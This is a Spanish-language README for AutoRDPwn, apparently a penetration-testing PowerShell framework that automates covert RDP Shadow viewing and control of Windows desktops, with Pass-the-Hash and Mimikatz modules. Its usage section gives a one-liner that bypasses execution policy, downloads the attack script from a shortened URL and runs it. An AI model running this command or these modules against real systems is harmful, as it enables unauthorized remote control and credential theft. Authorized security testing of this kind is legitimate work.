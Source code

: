 # AutoRDPwn: The Shadow Attack Framework

![AutoRDPwn](https://user-images.githubusercontent.com/34335312/45109339-8b203580-b13f-11e8-9de7-1210114313bb.png)

**AutoRDPwn** es un script creado en Powershell y diseñado para automatizar el ataque **Shadow** en equipos Microsoft Windows. Esta vulnerabilidad permite a un atacante remoto visualizar el escritorio de su víctima sin su consentimiento, e incluso controlarlo a petición. Para su correcto funcionamiento, es necesario cumplir los requisitos que se describen en la guía de uso.

# Cambios

## Versión 3.5
• El ataque Pass The Hash pasa a ser estable 

• Nueva funcionalidad - Cargar módulos adicionales

• Nuevo módulo adicional - Mimikatz

• Nuevo módulo adicional - Consola semi-interactiva


*El resto de cambios se pueden consultar en el fichero CHANGELOG


# Uso
**Ejecución en una línea:**

powershell -ExecutionPolicy Bypass "cd $env:TEMP ; iwr https://goo.gl/HSkAXP -Outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"

**La guía detallada de uso se encuentra en el siguiente enlace:**

https://darkbyte.net/autordpwn-la-guia-definitiva


# Licencia
Este proyecto está licenciando bajo la licencia GNU 3.0 - ver el fichero LICENSE para más detalles.


# Créditos y Agradecimientos
• Mark Russinovich por su herramienta PsExec -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• Marc R Kellerman por su herramienta Invoke-CommandAs -> https://github.com/mkellerman/Invoke-CommandAs

• Stas'M Corp. por su herramienta RDP Wrapper -> https://github.com/stascorp/rdpwrap

• Kevin Robertson por su herramienta Invoke-TheHash -> https://github.com/Kevin-Robertson/Invoke-TheHash

• Benjamin Delpy por su herramienta Mimikatz -> https://github.com/gentilkiwi/mimikatz


# Contacto
Este software no ofrece ningún tipo de garantía. Su uso es exclusivo para entornos educativos y/o auditorías de seguridad con el correspondiente consentimiento del cliente. No me hago responsable de su mal uso ni de los posibles daños causados por el mismo.

Para más información, puede contactar a través de **info@darkbyte.net
